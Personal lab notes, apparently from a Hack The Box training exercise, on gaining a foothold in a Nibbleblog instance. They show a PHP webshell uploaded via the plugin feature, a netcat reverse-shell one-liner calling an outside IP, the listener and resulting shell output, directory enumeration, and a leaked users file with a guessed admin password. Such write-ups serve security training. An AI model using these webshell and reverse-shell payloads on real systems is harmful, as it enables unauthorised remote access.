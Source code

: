 ! We already have access to admin portal


# Plugins exploit
#plugins 
image.php
```php
<?php system('id'); ?>
```

```pug
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```
command execution = yes
```shell-session
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

--> [[Reverse shell]]
#reverse_shell 

we can use this tamplate
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
-> and add it to image.php
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.128.72.254 9443 >/tmp/f"); ?>
```

#netcat listener 
```pug
nc -lvnp 9443
```
#cURL the image page again or browse to it in `Firefox` at `http://nibbleblog/content/private/plugins/my_image/image.php` to execute the reverse shell.
```pug
nc -lvnp 9443
```
```sh
listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

#TTY
upgrade TTY [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)



# End Quiz
Gain a foothold on the target and submit the user.txt flag
```sh
gobuster dir -u http://10.129.4.5/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.4.5/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2024/04/25 20:27:28 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 305]
/admin                (Status: 301) [Size: 319] [--> http://10.129.4.5/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                         
Progress: 434 / 4615 (9.40%)                                                    /.htaccess            (Status: 403) [Size: 305]                                          
Progress: 776 / 4615 (16.81%)                                                   /content              (Status: 301) [Size: 321] [--> http://10.129.4.5/nibbleblog/content/]
Progress: 1203 / 4615 (26.07%)                                                  Progress: 1682 / 4615 (36.45%)                                                  /index.php            (Status: 200) [Size: 2987]                                           
/languages            (Status: 301) [Size: 323] [--> http://10.129.4.5/nibbleblog/languages/]
Progress: 2288 / 4615 (49.58%)                                                  Progress: 2888 / 4615 (62.58%)                                                  /plugins              (Status: 301) [Size: 321] [--> http://10.129.4.5/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                             
Progress: 3494 / 4615 (75.71%)                                                  /themes               (Status: 301) [Size: 320] [--> http://10.129.4.5/nibbleblog/themes/]   
Progress: 4093 / 4615 (88.69%)                                                                                                                                               
===============================================================
2024/04/25 20:27:40 Finished
===============================================================
```
```sh
curl -s http://10.129.4.5/nibbleblog/content/private/users.xml | xmllint  --format -
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">0</session_fail_count>
    <session_date type="integer">1514544131</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
</users>
```

![[Pasted image 20240427164635.png]]
password nibbles from [[2Nibbles - Web Footprinting]]
Then through plugins set up reverse shell.
![[Pasted image 20240427165453.png]]
![[Pasted image 20240427170147.png]]